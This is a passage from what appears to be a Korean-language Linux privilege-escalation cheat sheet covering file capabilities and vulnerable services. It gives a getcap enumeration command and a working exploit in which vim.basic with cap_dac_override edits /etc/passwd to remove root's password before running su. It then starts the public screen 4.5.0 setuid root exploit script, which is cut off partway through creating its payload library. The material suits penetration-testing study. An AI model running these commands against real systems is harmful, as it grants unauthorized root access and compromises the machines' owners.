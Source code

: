 ```
| `+p`                  | 이 값은 지정된 기능에 대해 허용된 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다. 실행 파일에 기능을 부여하지만 기능을 상속하거나 자식 프로세스가 상속하는 것을 방지하려는 경우 유용할 수 있습니다. |

| **Capability**     | **설명**                                                                                        |
| ------------------ | --------------------------------------------------------------------------------------------- |
| `cap_setuid`       | 프로세스가 유효 사용자 ID를 설정할 수 있게 하며, 이를 통해 다른 사용자(`root`사용자 포함)의 권한을 얻을 수 있습니다.                      |
| `cap_setgid`       | 다른 그룹(`root` 그룹 포함)의 권한을 얻는 데 사용할 수 있는 유효 그룹 ID를 설정할 수 있습니다.                                  |
| `cap_sys_admin`    | 이 기능은 시스템 설정 수정, 파일 시스템 마운트 및 언마운트와 같은 `root` 사용자를 위해 예약된 많은 작업을 수행할 수 있는 등 다양한 관리 권한을 제공합니다. |
| `cap_dac_override` | 파일 읽기, 쓰기, 실행 권한 검사를 우회할 수 있습니다.                                                              |

## 기능 열거
```find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;```

## Exploitation
```
$ getcap /usr/bin/vim.basic
/usr/bin/vim.basic cap_dac_override=eip

$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
$ su
```

<br/><br/>
# 취약한 서비스

## Screen Version 확인
```screen -v```

## 권한 상승 - Screen_Exploit.sh
```./screen_exploit.sh```

### Screen_Exploit_POC.sh
```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>